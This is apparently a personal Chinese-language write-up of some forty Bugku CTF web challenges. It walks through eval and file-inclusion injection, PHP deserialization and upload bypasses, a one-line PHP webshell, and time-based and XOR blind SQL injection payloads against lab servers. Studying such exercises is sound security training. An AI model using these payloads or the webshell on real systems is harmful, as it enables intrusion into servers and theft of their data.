

# Bugku CTF WriteUp WEB

## 1. web2

  查看网页源代码，搞定。

## 2. 计算器

  登陆框只能填入一个数，无法填入完整答案。查看网页源代码修改字数限制，完成。

## 3. Web基础GET

  浏览器地址栏构造相应内容，完成。

## 4. Web基础POST

  我在burpsuite里面构造了没有效果，自己用python写了requests的简单脚本执行就成功了。奇怪。

## 5. 矛盾

  给了一个算法

  ```php
  $num=$_GET['num'];
  if(!is_numeric($num))
  {
    echo $num;
    if($num==1)
    echo 'flag{**********}';
  }
  ```

  看题目的意思是，需要输出flag，那么需要经过两个判断：

  第一个判断是is_numberic($num)，是要求$num不能是数字类型。

  第二个判断是if($num==1)这个判断是要求$num等于1.

  所以num的值又要是等于1又要不是数字类型。

  有意思的是，根据php的特性，如果是通过'=='来判断等式两边是否相等，那么两边是可以相同的值而不是相同类型，例如if(1==‘1’)是对的。而if(1==='1')是不对的。

  这道题可以把$num赋值为1开头的任意字符，例如1fdsfsdfsf，那么就能通过两个判断。
  //todo 这是为什么呢?

## 6. web3

  打开页面是一个无聊的无限弹窗,ctrl+u查看到源代码后解码,完毕.

## 7. 域名解析

  > 听说把 flag.baidu.com 解析到123.206.87.240 就能拿到flag

  直接修改/etc/hosts文件就行了

## 8. 你必须让他停下

  页面里面有段js是让网页不停的自动刷新.设置浏览器不允许js,然后手动刷新几次界面就看到flag.

## 9. 本地包含

  ```php
  <?php
      include "flag.php";
      $a = @$_REQUEST['hello'];
      eval( "var_dump($a);");
      show_source(__FILE__);
  ?>
  ```

  实际上就是要构造内容传递到eval语句中，将'var_dump('这部分进行闭合。所以可以构造hello的值为);show_source(%27%flag.php27);//
  这个题目最主要的就是有一句eval，var_dump函数无所谓是什么，换成md5函数都是可以的。有点类似SQL注入。

## 10. 变量1

  ```php
  flag In the variable !
  <?php  
  error_reporting(0);
  include "flag1.php";
  highlight_file(__file__);
  if(isset($_GET['args'])){
      $args = $_GET['args'];
      if(!preg_match("/^\w+$/",$args)){
          die("args error!");
        }
        eval("var_dump($$args);");
      }
  ```

  粗略看下来这道题目和上一道题目有点像，但是其中多了点花样。一是新加了正则表达式对输入的参数进行过滤，不能够加入特殊符号除字母。二是`eval("var_dump($$args);");`这一句其中的参数有两个$符号。$$args可以理解成$($args)，比如$args='flag',那么$$args=$flag。
  因此考虑到全局变量$GLOBAL中可能包含了flag的信息，因此构造成`?args=GLOBALS`

## 11. web5

  打开页面是一个输入框，提示是`JSPFUCK??????答案格式CTF{******}`，之前知道有一个JSFUCK，不知道还有JSPFUCK。。。直接F12看了下源代码，发现熟悉的`)[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(+![]+[![]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+`内容。但是由于这部分内容太多了，F12查看不完整，于是直接右键点击查看源代码拿到全部内容，放到consolo里面运行，拿到flag.

## 12. 头等舱

  打开页面什么也没有，看看头文件发现flag。

## 13. 网站被黑

  打开页面发现一个炫酷页面
  说明这个网站已经被黑，页面提示webshell，考虑到存在大马页面，使用kali自带的dirb工具扫描其他页面(这个工具其实蛮好用的)。发现shell页面
  

  看来是需要爆破了，使用burpsuite一波弱口令破解拿到flag。

## 14. 管理员系统

  首先有一个登陆框，尝试登陆时提示IP受限。F12查看源代码还得到一个BASE64字符串，解码为test123.
  

  获得以上信息后首先解决IP受限问题，修改X-Forwarded-For为127.0.0.1，后尝试以test123,test123登陆，提示密码错误。于是把用户名修改为admin，密码为test123成功登陆。

## 15. Web4

  打开页面提示看源代码，发现两个js变量p1,p2.
  
  利用浏览器的Console将两个变量使用unescape函数解析出来，组合成一组字符串。填入框中得到flag。

## 16. flag在index里

  根据查看首页、show.php、以及首页上的超链接，考虑到是一个文件包含漏洞。
  

  因此按照套路构造协议url为xxx:/post/?file=php://filter/read=convert.base64-encode/resource=./index.php，拿到index.php的base64码
  

  解码以后得到flag.

## 17. 输入密码查看flag

  一个简单的爆破题目，提示了密码是5个数字。不详细写了。

## 18. 点击一百万次

  提示查看js，发现要求变量clicks到达100000次才出现flag.于是在console中输入clicks=10000，再次点击中间图案得到flag.

## 19. 备份是个好习惯

  题目提示备份,使用dirb工具查找后缀名为.bak的文件,得到index.php.bak.分析页面内容(后面注释是我添加的)

  ```php
  <?php
  include_once "flag.php";
  ini_set("display_errors", 0);
  //获得URL中包含?之后的字符串
  $str = strstr($_SERVER['REQUEST_URI'], '?');
  //去掉?
  $str = substr($str,1);
  //替换到字符串中的key。但是很明显的漏洞是可以通过构造kkeyey绕过。
  $str = str_replace('key','',$str);
  //将$str变量中key1=a&key2=b的内容转换为$key1=a;$key2=b;
  parse_str($str);
  echo md5($key1);

  echo md5($key2);
  //key1与key2的md5值要相等，但是key1和key2的值不相等
  if(md5($key1) == md5($key2) && $key1 !== $key2){
      echo $flag."取得flag";
    }
  ?>
  ```

  通过以上代码分析，构造url比较简单，而md5那个地方以前遇到过，是md5和sha1都存在的一个漏洞，因为这两个函数无法解析数组,md5(key1[])会返回false，因此可以通过构造key1[]=a&key2[]=b解决。
  最终构造URL:?kekeyy1[]=a&kkeyey2[]=b

## 20. 成绩单

  一道简单的注入题目。不详细写了。

## 21. 秋名山老司机

  一道似曾相似的题目。页面中给出了一个超长计算式，需要迅速计算并把结果post到页面中。并且页面有中英文两种版本。
  

  

  仔细观察，知道算式是放在一个div里面。于是写出脚本拿到flag：
  
  ```python
  import requests
  from bs4 import BeautifulSoup

  url = 'http://123.206.87.240:8002/qiumingshan/'
  req =  requests.Session()
  r_page1 = req.get(url)
  soup = BeautifulSoup(r_page1.content,'lxml')
  result = eval(soup.body.div.text[:-3])
  print(result)
  result = {'value': result}
  r_page2 = req.post(url=url,data=result)
  print(r_page2.content)
  ```

  需要注意的是，接受页面和提交结果都应该放在一个Session下来做，所以用了`requests.Session()`

## 22. Web6

  从原页面头中得到一个flag参数，里面都是base64码

  

  解码以后又拿到一个base64码

  

  再解码是一串数字。因为base64码不是不变的，于是写脚本提交数字，拿到flag.

  ```python
  import requests
  import base64

  url = 'http://123.206.87.240:8002/web6/'
  req =  requests.Session()
  r = req.get(url)
  page1_result = base64.b64decode(r.headers['flag'])
  payload = str(page1_result).split(':')[1]
  payload = base64.b64decode(payload)
  data = {'margin': payload}
  r2 = req.post(url=url,data=data)
  print(r2.content)
  ```

## 23. cookies欺骗

  呼，感觉者这几题都是需要写代码，好麻烦。
  页面打开就发现URL不平常，包含了两个参数分别是line和filename
  解析字符串a2V5cy50eHQ=发现是keys.txt的base64码。于是把index.php进行base64编码后替换filename的值，再对代表行数的line不停的赋值1，2，3，4。。。,就得到了index.php文件的源代码。

  ```php
  error_reporting(0);
  $file=base64_decode(isset($_GET['filename'])?$_GET['filename']:"");
  $line=isset($_GET['line'])?intval($_GET['line']):0;
  if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");
  $file_list = array(
    '0' =>'keys.txt',
    '1' =>'index.php',
    );
    if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){
      $file_list[2]='keys.php';
    }
    if(in_array($file, $file_list)){
      $fa = file($file);
      echo $fa[$line];
    }
  ?>
  ```

  看来是需要在COOKIE中加入margin。并且filename的文件名改成keys.php的base64码
  

## 24. never give up

  打开页面没什么内容，F12查看源代码得到一个页面地址1p.html
    
  但是输入地址后浏览器就自动跳转了，使用burpsuite查看，得到1p.html中的一大段base64码.
  

  解密后就看到有点复杂的逻辑，但是不用管它。直接发现有个f4l2a3g.txt文件，访问后拿到flag
  

## 25. welcome to bugkuctf

  有意思的一道题，介绍了CTF题目中常用两个的PHP伪协议(为什么总是php??)。

  

  可以看到页面中给了这样的提示：
  
  ```php
  <!--  
  $user = $_GET["txt"];  
  $file = $_GET["file"];  
  $pass = $_GET["password"];  

  if(isset($user)&&(file_get_contents($user,'r')==="welcome to the bugkuctf")){  
      echo "hello admin!<br>";  
      include($file); //hint.php  
      }else{  
        echo "you are not admin ! ";  
      }  
  -->
  ```

  提示内容很简单，if判断语句是要保证两个条件同时满足：一是URL中传递的txt值不能为空。二是我一开始认为txt值应该是一个文件名称，这样的话file_get_contents函数读取txt名称的文件，而文件中内容恰好是'welcome to the bugkuctf'。

  后来发现我对第二个条件的认识是错误的。我用dirb扫描没有找到其他文件的存在，也就是说不存在可以通过file_get_contents函数读取的文件。

  其实file_get_contents不仅仅可以读取文件，还可以通过一个伪协议file_get_contents(php://input)读取post里面的内容。

  

  可以看到返回内容已经做出改变，if判断里面的条件我们已经满足(虽然这里还有一个小问题，就是现在页面返回的内容是hello friend，和注释中给我们的you are not admin不一致。说明index.php文件还有内容是注释里面没有说明的)。现在来看第二个要求，就是`include($file)`这句，他是要求包含hint.php文件。但如果只是构造file=hint.php不会直接给出hint.php源文件(为什么？),需要利用php://filter伪协议将hint.php文件内容转化为base64(也是CTF题目中最常用的方法)。

  于是构造`file=php://filter/read=convert.base64-encode/resource=hint.php`

  

  解码后：

  ```php
  /*hint.php*/
  <?php  

  class Flag{//flag.php
      public $file;  
      public function __tostring(){  
          if(isset($this->file)){  
              echo file_get_contents($this->file);
              echo "<br>";
              return ("good");
                 }  
               }  
             }  
  ?>
  ```

  还有点复杂的感觉。以上代码告知了这么一个情况:有个flag.php文件，里面有一个Flag类，`__tostring`方法说明当打印Flag实例的时候，会输出Flag实例中的$file变量值。

  先尝试直接打印flag内容，发现不行
  

  还记得之前说过index.php文件还有内容我们没有发现吗，构造`file=php://filter/read=convert.base64-encode/resource=index.php`查看一下index.php文件内容。
  
  ```php
  <?php  
  $txt = $_GET["txt"];  
  $file = $_GET["file"];  
  $password = $_GET["password"];  

  if(isset($txt)&&(file_get_contents($txt,'r')==="welcome to the bugkuctf")){  
      echo "hello friend!<br>";  
      if(preg_match("/flag/",$file)){
        echo "不能现在就给你flag哦";
          exit();  
        }else{  
            include($file);
            $password = unserialize($password);  
            echo $password;  
          }  
          }else{  
            echo "you are not the number of bugku ! ";  
          }  
  ?>
  ```

  很明显，第二个if函数说明了file参数不能包含flag字符。结合hint.php文件中的内容说明一下，$password应该是Flag实例序列化后的字符串，因此反序列化$password(就是将已经被序列化为$password字符串的对象复原)后，echo $password就会调用Flag类中的__toString方法，而__toString方法是打印类中的file属性值。目前就是需要打印出flag.php页面，所以我们把实例的file值等于'flag.php'

  第一步，构造Flag类，Flag类的file属性等于flag.php，并将其实例化
  

  第二步，在index.php页面构造url为`?txt=php://input&file=hint.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}`

  

  需要注意的是此时不需要对hint.php文件进行base64编码。因为编码的目的是为了展示页面源代码，现在的目的不用展示，是把Flag类的定义进行引用。

## 26. 字符？正则

  又到了一年一度的“为什么我怎么总是学不会正则表达式？？为什么一学就忘”的无能狂怒时间。
  

  以前做过这道题，但是好像做错了。

  一个个来吧。

  1. 首先看到整个结构一头一尾是被`/格式/i`包裹的，这个i就代表了中间格式内容不区分大小写。
  2. `key.*key` 前面key就是要求构造时候要以key开头，句号`.`代表除了换行符以外任意1个字符的匹配，星号`*`代表匹配0次或多次任意字符。所以构造`?id=keyaakey`
  3. `.{4,7}key` 前面的部分`.{4,7}`代表对`.`重复匹配4~7次。目前是`?id=keyaakeybbbbkey`
  4. `:\/.\/(.* key)` 前面的`\/`部分是指匹配`/`，`\`是用于转义。所以当前构造`?id=keyaakeybbbbkey:/c/dkey`
  5. `[a-z][[:punct:]]` 第一个是任意a-z英文字母，后面框框是指任意符号。最后构造的结果是：`?id=keyaakeybbbbkey:/c/dkeye-`，得到flag

## 27. 前女友

  根据源代码的提示看到code.txt内容。
  

  这个一看就知道是利用md5函数无法计算数组以及strcmp(参数1,参数2)(是比较两个参数字符串长度)中，无法比较数组的特点来构造。构造一下url参数拿到flag.

  `?v1[]=a&v2[]=b&v3[]=c`

## 28. login1

  页面提示`SQL约束攻击`，点进去看到是一个普通的登陆页面和注册页面。
  

  尝试注册admin时候提示已经注册过.
  

  根据提示找了一下SQL约束攻击的大概意思。比如当前的条件是：我创建了一个表，表里面的username字段格式是varchar(25)，而且当前录入了`admin`进去。这时候如果我再注册admin，就会提示我admin已存在。但是如果我注册了一个用户`admin   (20个空格)a`那么数据库在判断的时候首先会认为`admin   (20个空格)a`和`admin`不是一样的内容，然后把`admin   (20个空格)a`前面25个字符截断后存入。这时候就能用新注册的那个密码覆盖掉以前的密码。就完成了所谓的`SQL约束攻击`。最终拿到flag.

## 29. 你从哪里来

  看题目就知道是一个考察referer用法的，比较简单。只是注意一下一般都要写成`http://xxx.com`这样的格式。

## 30. md5 collision

  题目上来就要求给一个a的值`please input a`。在URL后面构造?a=1后页面提示`false`。在网上找到这个题目页面的源代码(为什么给我的题目里面没有源代码？)

  ```php
  <?php
  $md51 = md5('QNKCDZ0');
  $a = @$_GET['a'];
  $md52 = @md5($a);
  if(isset($a)){
    if ($a != 'QNKCDZO' && $md51 == $md52) {
      echo "nctf{*****************}";
      } else {
        echo "false!!!";
        }
      }
        else{echo "please input a";}
        ?>
  ```

  可以看到要求是a的值不能等于`QNKCDZ0`，但是`QNKCDZ0`的MD5值要和a的MD5值相等。这个题目和之前我们做的比较两个变量md5值得题目不一样的地方在于：之前的题目我们可以控制两个比较的变量，这个题目只能控制一个。于是我们先看看`md5('QNKCDZ0')`的值是`0e8304004519934940580242199033910`，好的有搞头了，因为php这个伟大的语言会把0e开头的哈希字符串认为是0，所以当md5函数计算出来的值是以0e开头的，那么PHP就会把它认为是0了(提示:MD5就是进行hash运算)。所以我们只需要把a的值构造成一个md5值开头为0e的字符串就行。网上找到`a=s878926199a`。拿到flag.

## 31. 程序员本地网站

  一个考察X-Forwarded-For的，就不详细写了。

## 32. 各种绕过

  

  考验sha1函数数组漏洞以及post\get方式提交，没什么难度。但是有个问题，我使用burpsuite怎么提交都出不了flag，后来写了Python小脚本才出现的。看来有必要下载一个hackbar之类的工具。

## 33. web8

  

  这个题目有两个解法。

  第一个解法：根据题目提示有txt文件，扫描目录知道可以访问flag.txt。内容是flags。既然有文件，那么直接构造`ac=flags`,然后利用file_get_contents函数构造`fn=flag.txt`就能拿到flag.

  

  第二个解法：利用伪协议。原理是`file_get_contents()`函数不仅仅可以读取文件内容，还可以读取url以及伪协议内容。
  那么直接利用php://input这个伪协议获取post中传递的内容的特性。具体构造见下图：

  

  奇怪的是，这个方法我用hackbar根本不出结果，用burp就有结果，晕了。

## 34. 细心

  

  细心看了一下应该是一个假的报错页面。于是用dirb扫描一下后台，发现另外一个页面

  

  看到下面有对x进行比较，几次尝试以后将`x=admin`，拿到flag(这个题真没什么意思)

  

## 35. 求getshell

  题目如下:
  
  

  看出来是一个上传题。

  我们先尝试上传一个php一句话文件。

  

  显示无法通过。那么修改一下Content-type内容，将其修改为图片格式。

  

  还是不行。最后看了其他人的WriteUp，是需要修改几个地方：

  1. 第一个Content-Type内容，需要经过大小写变换。(网上说是为了绕过waf，无法证实)
  2. 第二个是文件后缀名,发现php5可以通过。
  3. 第三个是上传文件后判断的Content-Type内容，这个内容会随着你上传文件的后缀判断。

  

  也不知道哪个神仙做出来的。然后我在网上收集了一些上传方面的资料：

  一般说来，上传验证有几种套路:

- 客户端JavaScript验证:
  这种的没啥难度。绕过方式是直接抓包修改就行。
- 文件后缀验证:
  就是上图第2个验证，绕过方式是抓包修改,可以使用其他名称如php2,php3,php4,PhP等绕过后缀名黑名单检验。
- Content-type验证:
  就是上图第3个验证，绕过方式是抓包修改。
- 文件头验证:
  比如服务器要求上传的是gif格式的文件，他会验证上传内容的开头符不符合gif格式文件的开头，绕过方式是在Burpsuite中抓包修改，加入GIF格式头，例如:`GIF89a<?php phpinfo(); ?>`
- 文件内容检测验证：
  这个就有点骚包了。验证会对上传内容进行验证，过滤点一些敏感函数，例如assert、eval等。这时候可以用两步操作：**第一步**上传内容为一句话的txt文件。**第二步**`<?php include('xxx.txt');?>`

## 36. INSERT INTO注入

  

  不论是题目的提示还是自己对代码的审计，应该看得出来以下几个规则:

  1. 第一行`error_reporting(0)`代表不会报错，就算错误也会正常执行。所以注入的话应该是盲注。
  2. explode函数对逗号进行了过滤
  3. 倒数第二行没有对X-Forwarded-For的内容进行过滤，可以从这个地方尝试注入
  4. SQL语句是INSERT语句，插入就是插入没有对错之分，因此在对待这个盲注时无法使用布尔型盲注。

  根据以上条件，判断出应该是要进行时间盲注。首要考虑sleep函数往哪放，因为这个语句是一个INSERT语句，所以我先尝试将insert语句闭合，插入`1'; select sleep(5);#`。这时候语句就变成了`insert into table_name(column_name) value('1');(select sleep(5));#')`。但可能是通过PHP执行的原因，无法执行两条连续的语句。
  

  我在Mysql中可以执行两条。
    

  所以只能在INSERT语句下想办法，先构造`1' and sleep(5) and '1'='1`。执行后果然是延时了。

    
  这时候后台语句就变成了`insert into table_name(column_name) value('1' and sleep(5) and '1'='1')`。在MySQL下看，这段内容是插入了0.因为`SELECT SLEEP(5)`的查询结果就是0

  

  还要注意的是，第一个字不能是英文。
    

  现在已经构造好大致的payload框架，然后是按照需要在刚才的sleep()函数附近修改内容。常规操作是使用if(条件判断,内容为真时延迟sleep(n),内容为假时)，但由于题目条件第二条对逗号进行了过滤不能直接使用if函数，那么换个姿势使用`CASE WHEN 条件判断 THEN 延迟SLEEP(5) ELSE 1 END`

  第一步是试探数据库的字符数，构造语句`1' and (SELECT CASE WHEN  length(database())=1 THEN SLEEP(5) ELSE 1 END) AND '1'='1`在burp里面跑一下(burp的设置见<https://www.jianshu.com/p/5d34b3722128>)
  
  其中length(database())的数值设置为变量。
  

  然后把页面timeout时间设置低一点，一般要低于我们sleep的时间。这样设置的原因是当出现可能触发sleep的时候结果会提示timeout。
    

  走两步：
  

  第二步是按照顺序一个个猜测字符内容。`1' and (SELECT CASE WHEN  substr(database() from 1 for 1)='a' THEN SLEEP(5) ELSE 1 END) AND '1'='1`

  需要注意的是由于逗号被过滤了，因此`limit 1,1`这种是无法完成的，但是可以通过`from 1 for 1`实现替代。此外这个payload里面有两个地方需要进行替换，第一个是`from 1 for 1`的第一个1，第一步我们得到database()名称一共有5个字符，所以第一个1，应该是1-5。第二个是`'a'`应该遍历所有字符来测试。
  让我们看看这样两个变量是怎么通过burp操作的。

  因为有两个变量，所以设置攻击方式为cluster bomb
    

  设置好两个变量的内容，第一个变量是从1到5。
  

  第二个变量是一些字符串集合，实际上截图里面的还不够完整，应该加上大写字母以及符号。
    

  设置好以后开始攻击，最后查看timeout的反馈页面拿到结果：web15

  

  虽然达成目的了，但是这种方法的效率是非常低的，因为如果在对第一个字符的第一次测试中就知道结果是a,那么实际上是不用继续测试'bcdefg...'的。但是机器不知道我们拿到需要的结果还会继续测试。因此需要找找其他方法来完成这个猜测的过程。

  第三步，继续按照套路猜测表名称，我们先试试所有表名称共有多少个字符:
  `1' and (select case when ((select length(group_concat(table_name)) from information_schema.tables where table_schema=database())=§1§) then sleep(5) else 1 end) and '1'='1`
  话说没有一个检查SQL语句的编辑器的话，在burp里面写这些内容真容易弄错.

  因为我们在语句中用了`group_concat(table_name)`,所以在不知道有多少个表的情况下，所有表名称加上group_concat函数自带的逗号共有14个字符。

  

  第四步，一个个猜测表名称的字符内容。

  `1' and (select case when (select ('§a§'=substr((select group_concat(table_name) from information_schema.tables where table_schema=database()) from §1§ for 1))) then sleep(5) else 1 end)  and '1'='1`

  最后就可以拿到flag了

## 37. PHP_encrypt_1(ISCCCTF)

  太难了。
  需要照着一个加密函数，写出对应的解密函数。

  ```php
  function encrypt($data,$key)
{
    $key = md5('ISCC');
    $x = 0;
    $len = strlen($data);
    $klen = strlen($key);
    for ($i=0; $i < $len; $i++) {
        if ($x == $klen)
        {
            $x = 0;
        }
        $char .= $key[$x];
        $x+=1;
    }
    for ($i=0; $i < $len; $i++) {
        $str .= chr((ord($data[$i]) + ord($char[$i])) % 128);
    }
    return base64_encode($str);
}
?>
#output:fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=
  ```

## 38. 文件包含2

  

  从URL中可以看到文件包含方式是`?file=hello.php`，用这个格式使用dirb跑一下,根据不同页面返回内容大小，得到一个关键页面`upload.php`

  

  打开页面发现是一个上传页面。

  

  先用老方法抓包改内容改后缀,但是页面提示只能上传规定的后缀文件，测试了几种后缀都不行，判断应该是一个白名单限制。

  

  不过没关系，因为是文件包含，所以包含了含有一句话木马的图片也是可以执行(网上好多方法是改后缀名成`a.php;.jpg`,明显是蠢得不知道问题所在乱说一气)。我们按照原来的图片格式上传。

  

  先用文件包含的方式访问一下这个图片地址`http://123.206.31.85:49166/index.php?file=upload/201907230226053601.png`。如果我们的一句话木马成功了是不会有内容的，但是我们看到一些关键词被过滤了。

  

  这时候问题就变为如何绕过过滤，然后发现可以把一句话木马修改成`<script language=php>@eval($_POST['cmd']);</script>`再次上传

  

  直接访问这个页面，没有任何内容显示，估计成功。于是发包phpinfo();尝试(不喜欢用菜刀)，成功!

  

  然后这个页面目录下有一个flag文件，查看后拿到flag，就不赘述。

## 39. flag.php

  打开页面有个登陆框，
  

  尝试了一下发现这个登陆框没什么作用，action后面没有跟页面地址。

  题目中有提示hint，修改URL为`/flagphp/?hint`,出现内容。

  ```php
  <?php
  error_reporting(0);
  include_once("flag.php");
  $cookie = $_COOKIE['ISecer'];
  if(isset($_GET['hint'])){
    show_source(__FILE__);
  }
  elseif (unserialize($cookie) === "$KEY")
  {
    echo "$flag";
  }
  else {
  ?>
    <html>
    <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="admin.css" type="text/css">
    </head>
    <body>
    <br>
    <div class="container" align="center">
    <form method="POST" action="#">
      <p><input name="user" type="text" placeholder="Username"></p>
      <p><input name="password" type="password" placeholder="Password"></p>
      <p><input value="Login" type="button"/></p>
    </form>
    </div>
    </body>
    </html>
    <?php
  }
  $KEY='ISecer:www.isecer.com';
  ?>
  ```

  其中最关键的一步是`elseif (unserialize($cookie) === "$KEY")`。审计代码发现实际上`$KEY`是没有定义的，在PHP中，没有定义就使用的变量值是空字符串(世界上最伟大的PHP语言)。所以我们只需要将空字符串序列化后传递给Cookie，然后`unserialize($cookie)`就可以得到空字符串了。

  ```php
  <?php
    $a="";
    print(serialize($a));
  ?>
  ```
  
  得到的值是`s:0:"";`,传入Cookie为:
  `Cookie: s:0:"";`(网上的writeup说需要将分号用url编码才行，实际上是不需要的。随便抓个包就知道实际上http头是允许出现分号的。)，最后拿到flag。

## 40. sql注入2

  打开页面是一个登陆框
  

  随便弱口令输入则提示`password error`，尝试使用`admin' or '1'='1`这类的万能密码登录则页面返回了`illegal character`提示有非法字符。于是我用sqlmap软件data文件夹中的keywords.txt文件中的关键字进行了遍历，发现`and`、`or`、`like`之类的关键字都被过滤掉了，大小写、double型、`/**/`之类的抗过滤也没有成功。过滤的这些关键词里面最关键的还是`or`，因为`information_schema`这个表就无法查询了。

  题目中有提示`!,!=,=,+,-,^,%`这些符号这些没有被过滤。再尝试异或注入，首先构造`admin'^(0)^'`，页面返回`password error`，但是当我们构造`admin'^(1)^'`时，页面返回`username error`.ok，可以使用异或注入。(此外也能通过`admin'-(0)-'`的方式)

  首先可以判断出数据库名称长度等于3`admin'^(length(database())=3)^'`,然后根据盲注的原理，要一个个判断出数据库字符,一般说来是使用`substr/mid/left`函数构造`substr(database(),1,1)='a'`，`mid(database(),1,1)='a'`，`left(database(),1)='a'`之类的语句来猜测内容。现在逗号`,`是被过滤的，尝试`substr(database() from 1 for 1)`,但是`for`也被过滤了。

  现在骚操作来了，可以构造`substr(database()from(1))`,以mysql结果为例：
    

  因此可以根据之前判断出的数据库名称大小来确定出数据库叫做`ctf`

  虽然有这个骚方法来得到数据库名称，但是下一步获取表名称是没办法了。这是因为`for`被过滤，所以`information_schema`无法查询

  重新再考虑，根据页面中密码表单的名称猜测其与数据库密码字段名称一致
  

  所以构造`admin'^(length(passwd)=32)^'`判断出密码长度32(原理仍然不懂)，并通过这个方法构造`admin'^(substr(passwdfrom(1))=a)^'`，经过32次重复，得到passwd密码内容是一串md5码，解得是`admin123`
